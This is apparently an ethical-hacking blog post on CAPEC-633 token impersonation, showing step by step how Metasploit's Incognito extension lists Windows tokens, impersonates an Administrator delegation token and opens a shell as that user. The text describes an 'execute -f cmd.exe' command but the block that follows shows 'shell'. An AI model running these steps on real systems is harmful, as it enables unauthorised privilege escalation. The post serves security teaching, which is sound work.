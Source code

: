 ```yaml
---
title: CAPEC 633 - Token Impersonation
categories: [Ethical Hacking, CAPEC]
tag: [privilege escalation (TA0004), metasploit, meterpreter]
comments: true
---
```


## Overview

An adversary exploits a weakness in authentication to create an access token (or equivalent) that impersonates a different entity, and then associates a process/thread to that that impersonated token. This action causes a downstream user to make a decision or take action that is based on the assumed identity, and not the response that blocks the adversary. [^1]

Adversaries may duplicate then impersonate another user's token to escalate privileges and bypass access controls. An adversary can create a new access token that duplicates an existing token using `DuplicateToken(Ex)`. The token can then be used with `ImpersonateLoggedOnUser` to allow the calling thread to impersonate a logged on user's security context, or with `SetThreadToken` to assign the impersonated token to a thread.

An adversary may do this when they have a specific, existing process they want to assign the new token to. For example, this may be useful for when the target user has a non-network logon session on the system. [^2]

There are two types of Tokens of interest:

- **Delegate:** Interactive access to hosts
- **Impersonate:** Non-interactive access to hosts

## Steps to Interface with Tokens

Metasploits Meterpreter has a built-in extension named Incognito that allows an attacker to interface with tokens on a compromised host. Once you have a Meterpreter session, you can impersonate valid tokens on the system and become that specific user without ever having to worry about credentials, or for that matter, even hashes. [^3]

```bash
(meterpreter) > load incognito
(meterpreter) > help

    Incognito Commands
    ==================

        Command              Description                                             
        -------              -----------                                             
        add_group_user       Attempt to add a user to a global group with all tokens 
        add_localgroup_user  Attempt to add a user to a local group with all tokens  
        add_user             Attempt to add a user with all tokens                   
        impersonate_token    Impersonate specified token                             
        list_tokens          List tokens available under current user context        
        snarf_hashes         Snarf challenge/response hashes for every token 
```

1. **Identifying Tokens:** The below example shows to the command to run to list all delegation and impersonation tokens on the target host. Of note is the Administrator delegation token.

    ```bash
    (meterpreter) > list_tokens -u

        Delegation Tokens Available
        ========================================
        Font Driver Host\UMFD-0
        Font Driver Host\UMFD-1
        NT AUTHORITY\LOCAL SERVICE
        NT AUTHORITY\NETWORK SERVICE
        NT AUTHORITY\SYSTEM
        darkcybe\Administrator
        Window Manager\DWM-1

        Impersonation Tokens Available
        ========================================
        No tokens available
    ```

2. **Token Impersonation:** When issuing the below command to perform the token impersonation using the previously identified Administrator delegate token, proceeding commands will be executed under that account.

    ```bash
    (meterpreter) > impersonate_token darkcybe\\Administrator

        [+] Delegation token available
        [+] Successfully impersonated user darkcybe\Administrator
    ```

3. **Command Execution:** With the Administrator account now being impersonated using the delegation token, commands can be run using the meterpreter shell. Running `execute -f cmd.exe -i -t` from within Meterpreter executes cmd.exe, the `-i` allows us to interact with the victims PC, and the `-t` assumes the role we just impersonated through incognito.

    ```bash
    (meterpreter) > shell

        Process 1676 created.
        Channel 1 created.
        Microsoft Windows [Version 10.0.22623.870]
        (C) Microsoft Corporation. All rights reserved.

        C:\WINDOWS\system32> whoami
        whoami
        darkcybe\administrator
    ```

## Sources

[^1]: [CAPEC-633: Token Impersonation](https://capec.mitre.org/data/definitions/633.html)
[^2]: [MITRE ATT&CK - Access Token Manipulation: Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001/)
[^3]: [Offensive Security - FUN WITH INCOGNITO](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)
